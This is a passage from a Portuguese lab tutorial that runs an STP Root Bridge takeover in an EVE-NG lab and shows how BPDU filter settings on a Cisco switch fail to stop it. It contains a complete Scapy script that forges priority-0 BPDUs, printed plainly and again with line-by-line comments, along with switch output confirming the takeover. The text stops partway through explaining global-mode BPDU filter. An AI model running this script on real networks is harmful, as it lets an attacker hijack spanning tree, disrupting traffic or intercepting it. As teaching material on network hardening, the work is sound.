

## 🧠 O que o script faz?

O script utiliza Scapy para:
  
- construir manualmente quadros STP
- gerar BPDUs falsas
- manipular campos do Bridge ID
- alterar prioridade STP
- anunciar uma Root Bridge maliciosa
  
Isso permite simular um ataque de Root Takeover de forma muito mais controlada do que utilizando ferramentas prontas.

## 📝 Script ataque_l2.py

Agora vamos olhor o script que irá simular um equipamento falso tentanto se tornar o **ROOT BRIDGE**  

```python
from scapy.all import *

# Monta um BPDU Configuration com prioridade 0 (tenta roubar o Root)
# eth0 = interface conectada ao SWACC02

interface = "eth0"

# BPDU STP Ethernet frame destino: 01:80:C2:00:00:00 (multicast STP)
# LLC: DSAP=0x42, SSAP=0x42, Control=0x03
# STP: type=0x00 (Config BPDU), prioridade 0 para tentar ser Root

bpdu = (
    Dot3(dst="01:80:c2:00:00:00", src=get_if_hwaddr(interface)) /
    LLC(dsap=0x42, ssap=0x42, ctrl=3) /
    STP(
        proto=0,
        version=0,
        bpdutype=0x00,
        bpduflags=0,
        rootid=0,               # prioridade 0 — menor possível
        rootmac=get_if_hwaddr(interface),
        pathcost=0,
        bridgeid=0,
        bridgemac=get_if_hwaddr(interface),
        portid=0x8001,
        age=0,
        maxage=20,
        hellotime=2,
        fwddelay=15
    )
)

print(f"[*] Enviando BPDUs maliciosos pela interface {interface}")
print(f"[*] MAC de origem: {get_if_hwaddr(interface)}")
print(f"[*] Prioridade anunciada: 0 (tentando roubar Root Bridge)")
print("[*] Pressione Ctrl+C para parar\n")

# Envia 1 BPDU a cada 2 segundos (mesmo Hello Time do STP)
# Controlado — não vai travar o EVE
sendp(bpdu, iface=interface, inter=2, loop=1, verbose=1)
```

## 📜 Script ataque_l2.py comentado

```python
from scapy.all import *  # Importa todas as funções e classes principais da biblioteca Scapy

# Monta um BPDU Configuration com prioridade 0 (tenta roubar o Root)  # Explica o objetivo do BPDU criado
# eth0 = interface conectada ao SWACC02  # Informa qual interface está ligada ao switch alvo

interface = "eth0"  # Define a interface de rede utilizada para enviar os pacotes STP

# BPDU STP Ethernet frame destino: 01:80:C2:00:00:00 (multicast STP)  # Endereço multicast reservado para STP
# LLC: DSAP=0x42, SSAP=0x42, Control=0x03  # Campos LLC utilizados pelo protocolo STP
# STP: type=0x00 (Config BPDU), prioridade 0 para tentar ser Root  # Explica que será enviado um BPDU Configuration com prioridade mínima

bpdu = (  # Início da construção do pacote STP
    Dot3(dst="01:80:c2:00:00:00", src=get_if_hwaddr(interface)) /  # Cria o cabeçalho Ethernet 802.3 com MAC multicast STP e MAC origem da interface
    LLC(dsap=0x42, ssap=0x42, ctrl=3) /  # Adiciona o cabeçalho LLC usado pelo protocolo STP
    STP(  # Inicia a construção do cabeçalho STP
        proto=0,  # Define a versão do protocolo IEEE STP
        version=0,  # Define STP clássico IEEE 802.1D
        bpdutype=0x00,  # Define o BPDU como Configuration BPDU
        bpduflags=0,  # Nenhuma flag especial ativada
        rootid=0,  # Define prioridade da Root Bridge como 0 (menor possível)
        rootmac=get_if_hwaddr(interface),  # Define MAC do atacante como Root Bridge anunciada
        pathcost=0,  # Define custo do caminho até a Root como zero
        bridgeid=0,  # Define prioridade local da Bridge como 0
        bridgemac=get_if_hwaddr(interface),  # Define MAC local da bridge atacante
        portid=0x8001,  # Define identificador da porta STP
        age=0,  # Define idade inicial da BPDU
        maxage=20,  # Define tempo máximo de validade da BPDU
        hellotime=2,  # Define intervalo de envio dos Hellos STP
        fwddelay=15  # Define tempo de transição entre estados STP
    )  # Finaliza o cabeçalho STP
)  # Finaliza a construção completa do pacote

print(f"[*] Enviando BPDUs maliciosos pela interface {interface}")  # Exibe interface utilizada no ataque
print(f"[*] MAC de origem: {get_if_hwaddr(interface)}")  # Exibe MAC da interface atacante
print(f"[*] Prioridade anunciada: 0 (tentando roubar Root Bridge)")  # Informa prioridade enviada no BPDU
print("[*] Pressione Ctrl+C para parar\n")  # Orienta como interromper o envio dos pacotes

# Envia 1 BPDU a cada 2 segundos (mesmo Hello Time do STP)  # Explica intervalo controlado do envio
# Controlado — não vai travar o EVE  # Explica que o envio foi limitado para evitar flooding excessivo

sendp(bpdu, iface=interface, inter=2, loop=1, verbose=1)  # Envia continuamente os pacotes STP pela interface definida
```

## 📜⚙️ Executando o script

Vamos entrar no terminal do kali linux e vamos executar o comando: **python ataque_l2.py**  



Como visto na saída do terminal, o ataque está em andamento. Então vamos analisar no Switch **SWACC02**, que é o alvo do ataque.

```ios
SWACC02#show spann
SWACC02#show spanning-tree vlan 1

VLAN0001
  Spanning tree enabled protocol ieee
  Root ID    Priority    4097
             Address     5000.0001.0000
             Cost        4
             Port        2 (GigabitEthernet0/1)
             Hello Time   2 sec  Max Age 20 sec  Forward Delay 15 sec

  Bridge ID  Priority    32769  (priority 32768 sys-id-ext 1)
             Address     5000.0003.0000
             Hello Time   2 sec  Max Age 20 sec  Forward Delay 15 sec
             Aging Time  300 sec

Interface           Role Sts Cost      Prio.Nbr Type
------------------- ---- --- --------- -------- --------------------------------
Gi0/0               Desg FWD 4         128.1    P2p
Gi0/1               Root FWD 4         128.2    P2p
Gi0/2               Altn BLK 4         128.3    P2p
Gi0/3               Desg FWD 4         128.4    P2p
Gi1/0               Desg FWD 4         128.5    P2p
Gi1/1               Desg FWD 4         128.6    P2p Edge
Gi1/2               Desg FWD 4         128.7    P2p Edge
Gi1/3               Desg FWD 4         128.8    P2p
Gi2/0               Desg FWD 4         128.9    P2p
Gi2/1               Desg FWD 4         128.10   P2p
Gi2/2               Desg FWD 4         128.11   P2p
Gi2/3               Desg FWD 4         128.12   P2p
Gi3/0               Desg FWD 4         128.13   P2p
Gi3/1               Desg FWD 4         128.14   P2p
Gi3/2               Desg FWD 4         128.15   P2p
Gi3/3               Desg FWD 4         128.16   P2p


SWACC02#
```

Podemos ver que não temos nenhum aviso nem mesmo as portas **G1/1** e **G1/2** não mudam de estado. Então para termos certeza sobre o funcionamento, vamos analisar os logs

```ios
SWACC02#show logging
Syslog logging: enabled (0 messages dropped, 17 messages rate-limited, 0 flushes, 0 overruns, xml disabled, filtering disabled)

No Active Message Discriminator.


No Inactive Message Discriminator.


    Console logging: level debugging, 38 messages logged, xml disabled,
                     filtering disabled
    Monitor logging: level debugging, 0 messages logged, xml disabled,
                     filtering disabled
    Buffer logging:  level debugging, 55 messages logged, xml disabled,
                    filtering disabled
    Exception Logging: size (8192 bytes)
    Count and timestamp logging messages: disabled
    Persistent logging: disabled
    Trap logging: level informational, 58 message lines logged
        Logging Source-Interface:       VRF Name:

Log Buffer (8192 bytes):

*Mar  1 00:00:01.629: %ATA-6-DEV_FOUND: device 0x1F0
*Mar  1 00:00:01.703: %NVRAM-5-CONFIG_NVRAM_READ_OK: NVRAM configuration 'flash:/nvram' was read from disk.
*May 13 14:03:49.141: %SPANTREE-5-EXTENDED_SYSID: Extended SysId enabled for type vlan
*May 13 14:03:55.204: %LINK-5-CHANGED: Interface GigabitEthernet0/0, changed state to reset
*May 13 14:03:55.205: %LINK-5-CHANGED: Interface GigabitEthernet0/1, changed state to reset
*May 13 14:03:55.205: %LINK-5-CHANGED: Interface GigabitEthernet0/2, changed state to reset
*May 13 14:03:55.205: %LINK-5-CHANGED: Interface GigabitEthernet0/3, changed state to reset
*May 13 14:03:55.206: %LINK-5-CHANGED: Interface GigabitEthernet1/0, changed state to reset
*May 13 14:03:55.206: %LINK-5-CHANGED: Interface GigabitEthernet1/1, changed state to reset
*May 13 14:03:55.207: %LINK-5-CHANGED: Interface GigabitEthernet1/2, changed state to reset
*May 13 14:03:55.207: %LINK-5-CHANGED: Interface GigabitEthernet1/3, changed state to reset
*May 13 14:03:55.209: %LINK-5-CHANGED: Interface GigabitEthernet2/0, changed state to reset
*May 13 14:03:55.209: %LINK-5-CHANGED: Interface GigabitEthernet2/1, changed state to reset
*May 13 14:03:55.210: %LINK-5-CHANGED: Interface GigabitEthernet2/2, changed state to reset
*May 13 14:03:55.210: %LINK-5-CHANGED: Interface GigabitEthernet2/3, changed state to reset
*May 13 14:03:55.211: %LINK-5-CHANGED: Interface GigabitEthernet3/0, changed state to reset
*May 13 14:03:55.211: %LINK-5-CHANGED: Interface GigabitEthernet3/1, changed state to reset
*May 13 14:03:55.213: %LINK-5-CHANGED: Interface GigabitEthernet3/2, changed state to reset
*May 13 14:03:55.214: %LINK-5-CHANGED: Interface GigabitEthernet3/3, changed state to reset
*May 13 14:03:55.490: %SYS-5-CONFIG_I: Configured from memory by console
*May 13 14:03:56.404: %LINEPROTO-5-UPDOWN: Line protocol on Interface GigabitEthernet0/0, changed state to up
*May 13 14:03:56.405: %LINEPROTO-5-UPDOWN: Line protocol on Interface GigabitEthernet0/1, changed state to up
*May 13 14:03:56.407: %LINEPROTO-5-UPDOWN: Line protocol on Interface GigabitEthernet0/2, changed state to up
*May 13 14:03:56.407: %LINEPROTO-5-UPDOWN: Line protocol on Interface GigabitEthernet0/3, changed state to up
*May 13 14:03:56.407: %LINEPROTO-5-UPDOWN: Line protocol on Interface GigabitEthernet1/0, changed state to up
*May 13 14:03:56.407: %LINEPROTO-5-UPDOWN: Line protocol on Interface GigabitEthernet1/1, changed state to up
*May 13 14:03:56.407: %LINEPROTO-5-UPDOWN: Line protocol on Interface GigabitEthernet1/2, changed state to up
*May 13 14:03:56.407: %LINEPROTO-5-UPDOWN: Line protocol on Interface GigabitEthernet1/3, changed state to up
*May 13 14:03:56.407: %LINEPROTO-5-UPDOWN: Line protocol on Interface GigabitEthernet2/0, changed state to up
*May 13 14:03:56.407: %LINEPROTO-5-UPDOWN: Line protocol on Interface GigabitEthernet2/1, changed state to up
*May 13 14:03:56.407: %LINEPROTO-5-UPDOWN: Line protocol on Interface GigabitEthernet2/2, changed state to up
*May 13 14:03:56.409: %LINEPROTO-5-UPDOWN: Line protocol on Interface GigabitEthernet2/3, changed state to up
*May 13 14:03:56.409: %LINEPROTO-5-UPDOWN: Line protocol on Interface GigabitEthernet3/0, changed state to up
*May 13 14:03:56.410: %LINEPROTO-5-UPDOWN: Line protocol on Interface GigabitEthernet3/1, changed state to up
*May 13 14:03:56.410: %LINEPROTO-5-UPDOWN: Line protocol on Interface GigabitEthernet3/2, changed state to up
*May 13 14:03:56.410: %LINEPROTO-5-UPDOWN: Line protocol on Interface GigabitEthernet3/3, changed state to up
*May 13 14:03:56.615: %LINEPROTO-5-UPDOWN: Line protocol on Interface Vlan1, changed state to down
*May 13 14:03:57.457: %LINK-3-UPDOWN: Interface GigabitEthernet3/3, changed state to up
*May 13 14:03:57.459: %LINK-3-UPDOWN: Interface GigabitEthernet3/2, changed state to up
*May 13 14:03:57.461: %LINK-3-UPDOWN: Interface GigabitEthernet3/1, changed state to up
*May 13 14:03:57.464: %LINK-3-UPDOWN: Interface GigabitEthernet3/0, changed state to up
*May 13 14:03:57.466: %LINK-3-UPDOWN: Interface GigabitEthernet2/3, changed state to up
*May 13 14:03:57.469: %LINK-3-UPDOWN: Interface GigabitEthernet2/2, changed state to up
*May 13 14:03:57.471: %LINK-3-UPDOWN: Interface GigabitEthernet2/1, changed state to up
*May 13 14:03:57.477: %LINK-3-UPDOWN: Interface GigabitEthernet2/0, changed state to up
*May 13 14:03:57.478: %LINK-3-UPDOWN: Interface GigabitEthernet1/3, changed state to up
*May 13 14:03:57.479: %LINK-3-UPDOWN: Interface GigabitEthernet1/2, changed state to up
*May 13 14:03:57.480: %LINK-3-UPDOWN: Interface GigabitEthernet1/1, changed state to up
*May 13 14:03:57.481: %LINK-3-UPDOWN: Interface GigabitEthernet1/0, changed state to up
*May 13 14:03:57.484: %LINK-3-UPDOWN: Interface GigabitEthernet0/3, changed state to up
*May 13 14:03:57.487: %LINK-3-UPDOWN: Interface GigabitEthernet0/2, changed state to up
*May 13 14:03:57.488: %LINK-3-UPDOWN: Interface GigabitEthernet0/1, changed state to up
*May 13 14:03:57.489: %LINK-3-UPDOWN: Interface GigabitEthernet0/0, changed state to up
*May 13 14:04:07.560: %SYS-5-RESTART: System restarted --
Cisco IOS Software, vios_l2 Software (vios_l2-ADVENTERPRISEK9-M), Experimental Version 15.2(20170321:233949) [mmen 101]
Copyright (c) 1986-2017 by Cisco Systems, Inc.
Compiled Wed 22-Mar-17 08:38 by mmen
*May 13 14:04:20.835: %PLATFORM-5-SIGNATURE_VERIFIED: Image 'flash0:/vios_l2-adventerprisek9-m' passed code signing verification
SWACC02#
```

Podemos notar que realmente não temos nenhum aviso ou log sobre o ataque ou sobre qualquer evento. Então vamos analisar com o Whireshark. Vamos posicionar o Whireshark no switch **SWACC02** na porta **G1/1** e vamos aplicar os filtros **STP** e depois **llc.dsap == 0x42**



Podemos notar que o campo **BRIDGE PRIORITY: 0** e isso confirma:

- o ataque está sendo executado conforme o planejado
- o campo **BRIDGE PRIORITY: 0** confirma que o atacante está tentando se tornar o **ROOT BRIDGE**
- nenhum aviso ou ação foi acionado no switch alvo

Esse é o perigo de se configurar o **BPDUFILTER** dessa maneira. Você nunca saberá se um problema aconteceu.  
Agora vamos acessa o switch **SWACC02**. Vamos desativar o BPDUFILTER na interface **G1/1** que está recebendo o ataque.  

```ios
SWACC02#conf t
Enter configuration commands, one per line.  End with CNTL/Z.
SWACC02(config)#int g1/1
SWACC02(config-if)#no spanning-tree ?
  bpdufilter     Don't send or receive BPDUs on this interface
  bpduguard      Don't accept BPDUs on this interface
  cost           Change an interface's spanning tree port path cost
  guard          Change an interface's spanning tree guard mode
  link-type      Specify a link type for spanning tree protocol use
  mst            Multiple spanning tree
  port-priority  Change an interface's spanning tree port priority
  portfast       Portfast options for the interface
  vlan           VLAN Switch Spanning Tree

SWACC02(config-if)#no spanning-tree bpdufilter
```

Agora vamos analisar quem é o root da rede.

```ios
SWACC02#show spanning-tree vlan 1 root

                                        Root    Hello Max Fwd
Vlan                   Root ID          Cost    Time  Age Dly  Root Port
---------------- -------------------- --------- ----- --- ---  ------------
VLAN0001             0 0050.0000.0600         4    2   20  15  Gi1/1

SWACC02#show spanning-tree vlan 1 root detail
VLAN0001
  Root ID    Priority    0
             Address     0050.0000.0600
             Cost        4
             Port        6 (GigabitEthernet1/1)
             Hello Time   2 sec  Max Age 20 sec  Forward Delay 15 sec
SWACC02#
```

Perceba que agora o mac address do **ROOT BRIDGE** é **0050.0000.0600** . Mas de que é esse mac address mesmo ? Vamos analisar o endereço no kali linux com o comando **ip**



Aqui podemos observar que o endereço mac **0050.0000.0600** é o do kali linus provando que o ataque foi bem sucessido e o linux consegui se tornar o **root brige**. Para se ter noção do perigo, não notamos nada mas o **spanning-three** foi obrigado a realizar um recalculo para depois convergir novamente trazeno o novo **root bridge sendo do atacante**

### BPDU Filter por interface

Na interface:

```ios
interface g1/1
 spanning-tree portfast
 spanning-tree bpdufilter enable
```

**🔥 O QUE ISSO FAZ**  

Esse modo:

- FILTRA PERMANENTEMENTE os BPDUs
- NÃO escuta STP
- NÃO reage
- NÃO desativa PortFast
- NÃO gera err-disable
- NÃO gera log
  
> 👉 A porta fica “cega” para STP.

**🎯 RESULTADO**  
  
Quando você envia:
  
- BPDUs legítimos
- BPDUs falsos
- ataque via Scapy
  
> 👉 o switch IGNORA COMPLETAMENTE.

Então:
  
- nenhum log
- nenhuma proteção
- nenhuma reação
  
> ✔ Isso é exatamente o comportamento esperado.
>
> ⚠️ E É POR ISSO QUE ESSE MODO É TÃO PERIGOSO
  
Porque:

- você remove o STP daquela interface
- a rede perde visibilidade
- loops podem acontecer silenciosamente

Agora que analisamos o **BPDUFILTER por portas**, vamos analisar o segundo caso.

### BPDUFILTER em modo modo global

Vamos acessar o switch **SWACC02**, nas portas **G1/1 e G1/2**. Vamos desabilitar o bpdufilter.

```ios
SWACC02(config)#int range G1/1-2
SWACC02(config-if-range)#spanning-tree bpduf
SWACC02(config-if-range)#no spanning-tree bpdufilter
SWACC02(config-if-range)#spanning-tree portfast edge
SWACC02(config-if-range)#
```

**OBSERVAÇÃO:** além de desabilitar o BPDUFILTER, também transformamos a porta em uma porta edge.  
Agora vamos aplicar o bpdu de forma global

```ios
SWACC02#conf t
Enter configuration commands, one per line.  End with CNTL/Z.

SWACC02(config)#spanning-tree portfast edge bpdufilter default
SWACC02(config)#
```

Agora vamos observar que as portas estão listadas como **edge**

```ios
SWACC02#show spanning-tree vlan 1

VLAN0001
  Spanning tree enabled protocol ieee
  Root ID    Priority    4097
             Address     5000.0001.0000
             Cost        4
             Port        2 (GigabitEthernet0/1)
             Hello Time   2 sec  Max Age 20 sec  Forward Delay 15 sec

  Bridge ID  Priority    32769  (priority 32768 sys-id-ext 1)
             Address     5000.0003.0000
             Hello Time   2 sec  Max Age 20 sec  Forward Delay 15 sec
             Aging Time  15  sec

Interface           Role Sts Cost      Prio.Nbr Type
------------------- ---- --- --------- -------- --------------------------------
Gi0/0               Desg FWD 4         128.1    P2p
Gi0/1               Root FWD 4         128.2    P2p
Gi0/2               Altn BLK 4         128.3    P2p
Gi0/3               Desg FWD 4         128.4    P2p
Gi1/0               Desg FWD 4         128.5    P2p
Gi1/1               Desg FWD 4         128.6    P2p Edge
Gi1/2               Desg FWD 4         128.7    P2p Edge

Interface           Role Sts Cost      Prio.Nbr Type
------------------- ---- --- --------- -------- --------------------------------

Gi1/3               Desg FWD 4         128.8    P2p
Gi2/0               Desg FWD 4         128.9    P2p
Gi2/1               Desg FWD 4         128.10   P2p
Gi2/2               Desg FWD 4         128.11   P2p
Gi2/3               Desg FWD 4         128.12   P2p
Gi3/0               Desg FWD 4         128.13   P2p
Gi3/1               Desg FWD 4         128.14   P2p
Gi3/2               Desg FWD 4         128.15   P2p
Gi3/3               Desg FWD 4         128.16   P2p


SWACC02#
```

Vamos iniciar o ataque via Kali Linux mais uma vez.



Agora vamos analisar novamente o spanning three

```ios
SWACC02#show spanning-tree vlan 1

VLAN0001
  Spanning tree enabled protocol ieee
  Root ID    Priority    0
             Address     0050.0000.0600
             Cost        4
             Port        6 (GigabitEthernet1/1)
             Hello Time   2 sec  Max Age 20 sec  Forward Delay 15 sec

  Bridge ID  Priority    32769  (priority 32768 sys-id-ext 1)
             Address     5000.0003.0000
             Hello Time   2 sec  Max Age 20 sec  Forward Delay 15 sec
             Aging Time  300 sec

Interface           Role Sts Cost      Prio.Nbr Type
------------------- ---- --- --------- -------- --------------------------------
Gi0/0               Desg FWD 4         128.1    P2p
Gi0/1               Desg FWD 4         128.2    P2p
Gi0/2               Desg FWD 4         128.3    P2p
Gi0/3               Desg FWD 4         128.4    P2p
Gi1/0               Desg FWD 4         128.5    P2p
Gi1/1               Root FWD 4         128.6    P2p
Gi1/2               Desg FWD 4         128.7    P2p

Interface           Role Sts Cost      Prio.Nbr Type
------------------- ---- --- --------- -------- --------------------------------

Gi1/3               Desg FWD 4         128.8    P2p
Gi2/0               Desg FWD 4         128.9    P2p
Gi2/1               Desg FWD 4         128.10   P2p
Gi2/2               Desg FWD 4         128.11   P2p
Gi2/3               Desg FWD 4         128.12   P2p
Gi3/0               Desg FWD 4         128.13   P2p
Gi3/1               Desg FWD 4         128.14   P2p
Gi3/2               Desg FWD 4         128.15   P2p
Gi3/3               Desg FWD 4         128.16   P2p


SWACC02#
```

Perceba que agora o ataque foi bem sucessido e as portas não estão mais como edge. Para as portas retornarem como edege porte, pare o ataque e execute o comando **shutdown** e depois **no shutdown**
  
> 🔥 ESSE MODO FUNCIONA COMPLETAMENTE DIFERENTE
  
Esse é o BPDU Filter GLOBAL.  
  
E aqui está o detalhe CRÍTICO:
  
### 🧠 COMO O MODO GLOBAL FUNCIONA

No modo global:
  
> spanning-tree portfast edge bpdufilter default
  
A interface:
  
- inicialmente NÃO envia BPDUs
- MAS continua ESCUTANDO
  
> 👉 Isso é a chave.

**🎯 QUANDO UM BPDU É RECEBIDO**  
  
Assim que:
  
- um switch
- ou seu Kali
  
envia uma BPDU:
  
👉 o switch faz:
  
- desativa automaticamente o PortFast
- remove o comportamento edge
- reativa STP normal na porta
- ⚠️ MAS ELE NÃO BLOQUEIA A PORTA
  
E aqui está o ponto MAIS importante:
  
